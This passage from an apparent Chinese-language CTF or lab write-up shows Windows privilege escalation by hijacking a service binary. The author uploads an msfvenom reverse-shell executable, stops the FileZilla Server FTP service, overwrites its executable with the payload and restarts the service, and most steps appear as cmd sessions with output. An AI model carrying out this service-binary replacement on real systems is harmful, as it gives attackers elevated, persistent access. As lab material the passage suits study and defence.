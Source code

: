 使用`msfvenom`成功一个反弹shell，设置监听`1235`端口

将生成的exe文件上传cgi-bin目录

`FileZilla server.exe`目录为：`C:\Program Files\FileZilla Server`

```cmd
C:\Program Files\FileZilla Server>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D891-2687

 Directory of C:\Program Files\FileZilla Server

11/11/2024  05:50 PM    <DIR>          .
11/11/2024  05:50 PM    <DIR>          ..
02/26/2012  06:42 AM         1,044,992 FileZilla Server Interface.exe
02/07/2013  11:10 PM               525 FileZilla Server Interface.xml
02/26/2012  06:42 AM           632,320 FileZilla server.exe
11/01/2012  11:06 AM             5,662 FileZilla Server.xml
02/26/2012  06:42 AM            82,944 FzGSS.dll
02/22/2012  02:10 PM             1,208 legal.htm
02/26/2012  06:50 AM         1,111,040 libeay32.dll
11/06/2011  04:27 AM            18,348 license.txt
02/26/2012  06:41 AM            38,614 readme.htm
02/26/2012  06:50 AM           276,480 ssleay32.dll
11/10/2024  06:36 PM            46,930 Uninstall.exe
              11 File(s)      3,332,865 bytes
               2 Dir(s)  40,085,143,552 bytes free
```

复制到当前目录，暂停FTP服务

```cmd
C:\Program Files\FileZilla Server>copy c:\www\root\cgi-bin\PE.exe pe.exe
copy c:\www\root\cgi-bin\PE.exe pe.exe
C:\Program Files\FileZilla Server>net stop "FileZilla Server FTP server"
net stop "FileZilla Server FTP server"
The FileZilla Server FTP server service is stopping.
The FileZilla Server FTP server service was stopped successfully.
```

重命名为`FileZilla server.exe`

```cmd
C:\Program Files\FileZilla Server>move pe.exe "FileZilla server.exe"
move pe.exe "FileZilla server.exe"
Overwrite C:\Program Files\FileZilla Server\FileZilla server.exe? (Yes/No/All): yes
yes
```

启动FTP服务555

```cmd
C:\Program Files\FileZilla Server>net start "FileZilla Server FTP server"
```
